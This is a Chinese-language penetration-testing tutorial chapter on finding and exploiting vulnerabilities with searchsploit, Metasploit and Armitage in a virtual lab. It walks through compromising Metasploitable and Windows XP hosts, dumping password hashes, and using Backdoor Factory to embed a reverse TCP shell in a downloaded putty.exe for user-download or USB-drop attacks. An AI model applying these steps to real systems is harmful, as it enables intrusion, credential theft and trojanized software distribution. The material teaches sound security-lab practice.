


# 第四章：在目标中查找漏洞

本章我们将涵盖以下主题：

+   正在搜索本地漏洞数据库

+   搜索在线漏洞数据库

+   Metasploit 设置和配置

+   Armitage 设置

+   使用 Armitage 进行基本的漏洞攻击

+   使用 Armitage 进行高级攻击

+   使用后门工厂和 Armitage

# 介绍

在本章中，我们将使用我们收集的主机信息来确定可能的漏洞，进而对目标机器和服务进行攻击。需要注意的是，在您完成此部分内容时，您将对主机发起攻击。这些攻击将会在网络上产生噪音，可能会被安全设备捕捉到。在典型情况下，您将花费大量时间验证目标是否确实易受某个漏洞攻击，然后再发起攻击，以避免产生任何不必要的信息，这些信息可能会被用于确定对设备的主动攻击。

# 搜索本地漏洞数据库

searchsploit 数据库是一个本地漏洞数据库，它是 Kali 标准配置的一部分。这是离线搜索漏洞的一个很好的方式，尤其是在没有互联网连接时。由于其离线搜索能力，它非常适合在受限网络环境中使用。

# 准备工作

让我们确保以下前提条件：

+   Kali Linux 正在运行，并且您已以 root 用户身份登录

+   验证互联网连接

# 如何操作...

现在我们将搜索本地漏洞数据库：

1.  点击左上角的终端图标，打开终端屏幕。

1.  从主终端屏幕，您应该处于 `root@kali:~#` 命令提示符下。

1.  通过输入以下命令，查看 searchsploit 选项：

```
searchsploit
```

# 更新 searchsploit

我们必须首先确保我们的 searchsploit 数据库已更新：

1.  从主终端提示符处，输入以下命令以更新 searchsploit 数据库：

```
searchsploit -u
```

定期使用 APT 包管理器更新 Kali 也会自动更新数据库。

1.  安装运行 searchsploit 部分功能所需的额外模块：

```
apt install -y libxml2-utils
```

# 执行一个简单查询

我们将对 searchsploit 数据库运行一个简单查询：

1.  从主终端提示符处，运行一个简单的查询，查找已知的 SMB 漏洞 `MS17-010`。您可能会认出这是与 WannaCry 以及其他各种恶意软件蠕虫相关的漏洞：

```
searchsploit MS17-010
```

1.  您将收到以下输出：

Searchsploit 控制台输出

1.  让我们来看看与某个查询结果相关的一些具体内容：

```
nano /usr/share/exploitdb/platforms/windows/dos/41891.rb
```

1.  以下输出将显示您正在查看一个 Metasploit 模块。这个模块专门设计用于搜索设备，以查看它们是否容易受到此漏洞的攻击。

我们稍后会讨论 Metasploit，但需要注意的是，如果某个漏洞没有包含在默认的 Metasploit 数据库中，我们可以导入它以供使用。 特定漏洞的 Nano 输出

1.  要退出 nano 编辑器，输入 `<control>-x`；如果系统询问是否保存修改的缓冲区，输入 `n`。

浏览其他结果，你会注意到 `41987.py` 是一个用 Python 编写的针对该漏洞的利用代码。

# 理解 searchsploit 中的搜索选项

你可以使用 searchsploit 搜索多个参数；试试以下示例。

1.  以下命令将仅搜索利用数据库中的`windows`和`remote`标题，从而帮助你找到潜在的远程 Windows 漏洞：

```
searchsploit -t windows remote
```

1.  如果你将 nmap 或 zenmap 的结果导出为 XML 格式，可以针对该文件进行漏洞搜索。运行一次 `nmap` 并将其结果输出到 `/root/test.xml`。以下命令用于搜索该输出文件，并将为你提供与 nmap 搜索相关的漏洞列表：

```
searchsploit --nmap /root/test.xml
```

# 搜索在线漏洞数据库

我们将使用 Firefox 来查看在线漏洞数据库 [www.exploit-db.com](https://www.exploit-db.com/)。

`exploit-db.com` 网站将包含 searchsploit 数据库中的所有信息，但有些人可能会觉得网页 GUI 界面更容易使用和浏览。由于 searchsploit 数据库是每周更新一次，网站上可能还会有一些稍微更新的信息。网站的 `CAPTCHA` 功能是使用该网站的一个显著缺点。

# 准备工作

确保以下前提条件：

+   Kali Linux 正在运行并且你已以 root 身份登录

+   验证互联网连接

# 如何操作...

我们现在将通过在线漏洞数据库进行搜索：

1.  从主界面启动 Firefox 应用程序。 

1.  访问名为 [`www.exploit-db.com/search`](https://www.exploit-db.com/search) 的网站。

1.  在搜索框中输入 `windows remote`，点击 reCAPTCHA，然后选择搜索：


Firefox 截图，展示 exploit-db.com 网站

1.  你将看到如下截图所示的输出。你会发现你有很多可点击的选项，可以用来浏览数据库。你可以利用这些选项获取更多信息并优化你的搜索：

 Firefox 截图，展示 exploit-db.com 网站漏洞列表。点击橙色的更多选项按钮，查看额外的搜索查询选项，并尝试进行几次搜索。

# Metasploit 的设置与配置

现在，Metasploit 框架作为 Kali 安装的一部分，因此设置和初始配置过程相对简单。

Metasploit 框架是一个开源开发工具，用于针对机器创建和执行漏洞代码。在 Kali 的后续版本中，它已成为核心工具包的一部分，因此启动时几乎不需要任何设置。在本教程中，我们将带你完成这些简单的步骤，帮助你快速上手。

请注意，Metasploit 框架和 Armitage 使用相同的后端数据库，因此如果你已经初始化了数据库，可以跳过到“启动*Metasploit 框架初始化和启动*”部分。

# 准备工作

让我们确保以下前提条件：

+   Kali Linux 正在运行，并且你已以 root 身份登录

+   确保你最近已运行更新

+   验证互联网连接

# 如何操作...

准备使用 Metasploit 控制台的过程有几个步骤，我们将在这一部分进行讲解。

# Metasploit 框架初始化和启动

1.  首先，点击左侧的终端图标打开一个终端窗口。

1.  Metasploit 使用数据库来存储目标、漏洞和其他信息。我们需要首先启动数据库守护进程。从命令提示符输入以下命令：

```
service postgresql start
```

1.  接下来，我们将初始化数据库（这只需要在第一次启动时完成一次）：

```
 msfdb init
```

如果你需要重新初始化数据库从头开始，可以使用`msfdb reinit`命令。请注意，所有现有的数据将会丢失。

1.  现在，我们可以启动 Metasploit 控制台：

```
msfconsole
```

1.  现在，你将进入 MSF 的主界面。注意，你的命令提示符已经变成了`msf >`，表示你现在已进入控制台：

msfconsole 屏幕你的屏幕可能与之前的截图有所不同。当 Metasploit 框架启动时，它会选择一个不同的文本图像（横幅）开始。你可以通过在`msf >`提示符下输入`banner`来查看不同的横幅。

1.  让我们验证数据库是否已连接并正常运行。从`msf >`提示符输入以下命令，如果一切正常，你应该看到[*] postgresql 已连接到 msf：

```
db_status
```

# 启动 Metasploit 控制台

在命令提示符下，输入以下内容：

```
service postgresql start
msfconsole
```

# 停止 Metasploit 控制台

从`msf >`控制台，输入以下内容：

```
quit
service postgresql stop
```

# 还有更多...

虽然你可以通过命令行完成所有工作，但接下来我们将使用 Armitage，Armitage 是 Metasploit 框架的图形用户界面前端。如果你想获取更多关于使用命令行的信息，下面有两个很棒的资源：

+   MSFconsole 命令教程：[`www.offensive-security.com/metasploit-unleashed/msfconsole-commands/`](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)

+   Metasploit 备忘单：[`www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf`](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

# Armitage 设置

Armitage 是 Metasploit 框架的图形前端。

在本教程中，我们将为 Metasploit 框架设置 Armitage 图形用户界面。根据您的偏好，您可能会更喜欢图形界面，而不是命令行体验。然而，您可以随时互换使用两者，因为它们使用的是相同的数据库。

请注意，Metasploit 框架和 Armitage 使用相同的后台数据库，因此如果您已经初始化了数据库，请跳到启动 Armitage 的部分。

# 准备工作

让我们确保以下先决条件：

+   Kali Linux 正在运行，并且您以 root 身份登录

+   确保您最近已运行更新

+   验证互联网连接

# Armitage 初始化和启动

现在我们将初始化并启动 Armitage：

1.  首先通过点击左侧的终端图标打开一个终端窗口。 

1.  Metasploit 使用数据库存储关于目标、漏洞和其他信息。我们需要首先启动数据库守护进程。在命令提示符中，键入以下内容：

```
service postgresql start
```

1.  接下来，我们将初始化数据库（这只需要在首次启动时执行一次）：

```
 msfdb init
```

如果您需要重新初始化数据库以重新开始，可以使用`msfdb reinit`命令。请注意，所有现有数据将会丢失。

1.  通过键入以下命令启动 Armitage：

```
armitage
```

1.  点击“连接”，如以下截图所示：

Armitage 数据库连接界面

1.  在系统提示启动 Metasploit RPC 服务器时选择“是”：

Armitage 启动 RPC 服务器界面您可能会被要求输入计算机的 IP 地址。请输入您分配给仅主机网络的 IP 地址。在我的例子中是`192.168.56.102`。

# 停止 Armitage

要停止 Armitage 并退出：

1.  要退出，点击顶部的 Armitage，选择“关闭”：

带有关闭选项的 Armitage 菜单

1.  在命令提示符中，键入以下内容：

```
service postgresql stop
```

# 使用 Armitage 进行基本漏洞攻击

在本教程中，我们将执行一些 Armitage 的基础任务，包括加载 nmap 扫描、执行 nmap 扫描、查找攻击目标以及攻击目标机器。

# 准备工作

让我们确保以下先决条件：

+   Kali Linux 正在运行，并且您以 root 身份登录

+   确保 Armitage 正在运行

+   至少确保 Metasploitable 虚拟机和 Windows XP 虚拟机正在运行；如果需要，可以随时启动其他目标主机

# 操作步骤...

从 Armitage 主屏幕开始，我们必须首先在网络上查找我们的目标。我们可以导入之前的 nmap 扫描结果，也可以直接从 Armitage 控制台运行 nmap。

# 导入 nmap 扫描

我们将首先将 nmap 扫描导入 Armitage：

1.  从顶部选择“主机”|“导入主机”：

Armitage 导入主机菜单

1.  浏览文件系统，选择您的 nmap 输出 XML 文件；点击**打开**：

Armitage 打开文件对话框

1.  您现在会看到 nmap 扫描结果已显示，并且可以开始处理设备：

Armitage nmap 扫描结果导入屏幕

# 从 Armitage 界面执行 nmap 扫描

要在 Armitage 中执行 nmap 扫描，请执行以下操作：

1.  从顶部选择**主机**|**Nmap 扫描**|**强力扫描**：

Armitage nmap 扫描菜单

1.  输入我们的扫描范围；在此案例中，我们将扫描整个`192.168.56.0/24`网络，然后点击**确定**。此扫描可能需要几分钟时间才能完成，请耐心等待：

Armitage nmap 输入范围对话框

1.  完成后，您将看到扫描完成通知；您的控制台现在会显示您的主机。您也可以通过点击屏幕中间附近的 nmap 图标旁的 nmap **x**来关闭 nmap 输出窗口：

Armitage nmap 扫描结果导入屏幕

# 查找针对主机的攻击

我们将使用 Armitage 来查找针对主机的攻击：

1.  此时，让我们使用我们的 Metasploitable 机器，它当前的 IP 地址是`192.168.56.104`。点击它一次以选择（此时会显示绿色虚线轮廓）。

1.  如果您右键点击设备，您会看到各种选项——选择**服务**。这将显示该主机的所有监听端口和服务列表。向下滚动一点，查看所有提供的信息：

Armitage 主机服务屏幕

1.  让我们寻找一些可能针对主机的攻击。从顶部点击**攻击**|**查找攻击**。这可能需要一两分钟来关联信息。完成后，您将看到一个**攻击分析完成**对话框。选择**确定**以关闭它：

Armitage 查找攻击菜单

1.  现在，如果我们右键点击我们的主机，我们会看到一个新菜单项标记为**攻击**。浏览所有可能的攻击选项：

Armitage 攻击菜单

# 利用主机

我们现在将对主机发起漏洞利用：

1.  现在我们已经有了可能会危及主机的攻击，让我们选择一个来执行。右键点击我们的 Metasploitable 机器，选择**攻击**|**irc**|**unreal_ircd_3281_backdoor**。

1.  您将看到一些选项，您可能需要滚动并进行更改。例如，您的 LHOST 应该是指向目标虚拟机的接口。进行所需更改后，点击**启动**：

Armitage 漏洞利用启动对话框 请耐心等待，可能看起来像是卡住或失败，但它会继续进行。

1.  现在你会看到 Metasploitable 设备的图标已更改，显示它已被攻陷：

Armitage 主屏幕，显示已攻陷的设备

1.  既然设备已被攻陷，让我们运行几个简单的命令。通过右键点击该设备，我们会看到一个新的操作叫做 Shell 1；从这里，我们选择交互：

Armitage shell 交互界面

1.  现在你会看到底部出现一个新的 Shell 1 标签，并且显示$提示符。让我们通过在$提示符下输入以下命令来查看我们在该机器上是谁：

```
whoami
```

1.  这应该返回你当前认证的用户；在我们的案例中，我们是 root：

Armitage shell whoami 输出

1.  为了验证我们能对这台机器造成多大的破坏，我们在$提示符下输入以下命令：

```
cd /bin 
touch youhavebeenowned
chmod 777 youhavebeenowned
```

1.  现在，让我们登录到我们的 Metasploitable 虚拟机，使用`msfadmin`/`msfadmin`登录，并运行以下命令：

```
ls -lai /bin/youhavebeenowned
```

1.  从输出中可以看到文件存在，位于`bin`目录中，且用户、组和所有人都有读取、写入和执行权限：

Armitage 命令输出 “圣母攻击” - 这里有一个列出的攻击叫做圣母攻击。简而言之——不要使用它。它很吵，什么都扔向目标。如果你在实验室环境中有一个虚拟机寻找漏洞，它可能会有用，但在活跃的网络或互联网中，它会很容易被发现，通常只是显示测试者缺乏经验和技巧。

# 使用 Armitage 进行高级攻击

在本部分中，我们将使用 Armitage 对 Windows XP 机器进行一次高级攻击。我们将执行多个不同的操作，如初步利用、VNC 访问、下载和查看文件。

# 入门

让我们确保以下先决条件：

+   Kali Linux 正在运行，你已登录为 root

+   确保 Armitage 正在运行

+   至少确保 Windows XP 虚拟机正在运行——可以根据需要启动其他目标主机

# 如何执行...

从 Armitage 屏幕中，选择 Windows XP 虚拟机进行本部分操作。

# 初步利用

我们将对 Windows 虚拟机进行初步利用：

1.  右键点击 Windows XP 虚拟机，选择攻击 | smb | ms08_067_netapi：

Armitage 攻击选项

1.  根据需要进行任何必要的修改，包括如果需要更改 LHOST 为虚拟机网络中的 IP 地址。准备好后，点击启动：

Armitage 攻击对话框

1.  现在你会看到 Windows XP 虚拟机设备的图标已被更改，再次标识该机器已被攻陷。

Armitage 主屏幕，显示已被攻陷的设备

# 导出哈希

我们将对 Windows 虚拟机执行密码哈希导出：

1.  现在让我们转储用户哈希，以便稍后破解它们并将其用作其他漏洞利用的一部分。从右击 Windows XP 虚拟机开始，你将看到一个新的选项。选择 Meterpreter 3 | 访问 | 转储哈希 | 注册表方法；在下一个屏幕中，选择启动。

1.  现在你将看到哈希值显示在屏幕上，并且它们也会被保存在我们的战利品库中。另外，查看输出文件，你会看到密码提示也被转储了。Jane Doe 的密码提示是`jane123`——这可能是她的密码吗？

armitage 哈希转储输出

1.  如果你关闭了哈希转储窗口，可以重新进入并点击查看 | 战利品；然后双击主机查看哈希值。

# 与 Windows 机器互动

我们现在将打开一个命令行来直接与 Windows 虚拟机互动：

1.  右击 Windows XP 虚拟机，选择 Meterpreter 3 | 互动 | 命令行。

1.  尝试运行一些 Windows 命令，看看会有什么返回：

```
dir 
cd / 
dir
```

1.  现在，让我们启动 VNC，看看从桌面可以做些什么。右击 Windows XP 虚拟机，选择 Meterpreter 3 | 互动 | 桌面（VNC）。你将看到类似如下的屏幕。注意此 VNC 会话的端口号：

Armitage VNC 绑定信息框

1.  现在让我们点击左侧的终端图标。

1.  从 shell 输入以下命令：

```
vncviewer 127.0.0.1::5913
```

1.  现在，你将进入 Windows XP 机器：

Windows XP 虚拟机的 VNC 视图

# 浏览目标文件

现在我们将浏览 Windows 机器的文件系统：

1.  右击 Windows XP 虚拟机，选择 Meterpreter 3 | 探索 | 浏览文件。你将看到一个熟悉的文件浏览界面：

Armitage 浏览文件屏幕

1.  你将看到你可以浏览并更改目录。你可以创建目录和上传文件；如果右击文件，你将看到其他选项，如查看和下载。下载几个文件后，去查看 | 下载，看看它们：

Armitage 下载文件屏幕

# 还有更多内容...

我们将涵盖诸如在第六章中破解用户密码，*密码破解*以及在第十章中保持持久性，*保持访问*等主题。你现在可能想要去做这些练习，因为它们是我们现在内容的延续。

# 使用后门工厂和 Armitage

我们将结合使用后门工厂和 Armitage 来攻破目标系统。后门工厂是一个工具，可以向 Windows 可执行文件插入漏洞利用代码。当你试图通过让用户下载软件，甚至通过诸如投放 USB 密钥等物理攻击来攻击用户时，这个工具非常有用。

# 准备就绪

让我们确保以下先决条件：

+   Kali Linux 正在运行，并且你已作为 root 用户登录

+   Armitage 正在运行

+   你的 Windows XP 虚拟机正在运行

# 如何操作...

现在我们将使用 Backdoor Factory 将漏洞利用代码插入到可执行文件中：

1.  首先，让我们浏览并找到一个用户可能想下载的流行软件包，或者可能看起来无害或诱人的软件。在我们的例子中，让我们去下载 putty。每个网络管理员可能都曾在某个时刻使用过 putty。打开 Firefox  并访问[www.putty.org](http://www.putty.org/)。从该站点下载`putty.exe`（32 位版本）；并将文件保存到你的`Downloads`目录中。

你需要在页面上滚动一下才能找到 EXE 文件——不要使用 MSI 文件进行此练习。

1.  打开终端  并输入以下命令。我们首先创建一个漏洞利用目录，然后将`putty.exe`文件复制到该目录中：

```
cd
mkdir exploit
cp ~/Downloads/putty.exe ~/exploit/
```

1.  接下来，让我们首先运行 Backdoor Factory，看看我们可以将哪些内容插入到`putty.exe`中：

```
backdoor-factory -f ~/exploit/putty.exe <enter>
```

Backdoor Factory 可用 Shell 代码输出屏幕

1.  注意可用于此可执行文件的选项。我们将选择`reverse_shell_tcp_inline`，使用我们 Kali 机器的 IP，并输入以下命令来使用端口号。在执行命令时，系统会询问你可以在哪里注入代码；我们简单地选择`1`：

```
backdoor-factory -X -f ~/exploit/putty.exe -s reverse_shell_tcp_inline -H 192.168.56.10 -P 8123
```

Backdoor Factory 成功将 Shell 代码添加到 putty.exe 文件中

1.  现在，我们将在`Home`目录中看到一个新的`backdoored`目录，其中包含带有漏洞利用的`putty.exe`。将该文件移动到你的 Windows XP 机器上，但不要立即运行它。

1.  启动 Armitage 并进入主屏幕。从左侧的下拉目录中选择 exploit | multi | handler，然后点击它：

Armitage 处理程序菜单

1.  系统将显示一个对话框，选择与我们之前输入的信息对应的正确 IP 和端口号。在我们的例子中，IP 是`192.168.56.10`，端口是`8123`。点击启动：

Armitage 启动对话框

1.  你将看到处理程序启动；注意顶部，你的 Windows XP 机器看起来正常：

Armitage 输出屏幕

1.  现在，在你的 Windows 虚拟机上启动`putty.exe`：

Windows XP 正在运行被利用的 putty.exe 文件

1.  注意，你的 Windows XP 机器图标现在会变化，显示它已被利用；同时你也会看到会话已从控制台输出打开：

Armitage 屏幕显示成功连接和被利用设备图标

1.  如果你右键点击 Windows XP 机器，你可以选择 Shell 1 | Interact。然后，你会进入一个 shell 界面，可以根据需要操作：

Armitage 显示命令行界面
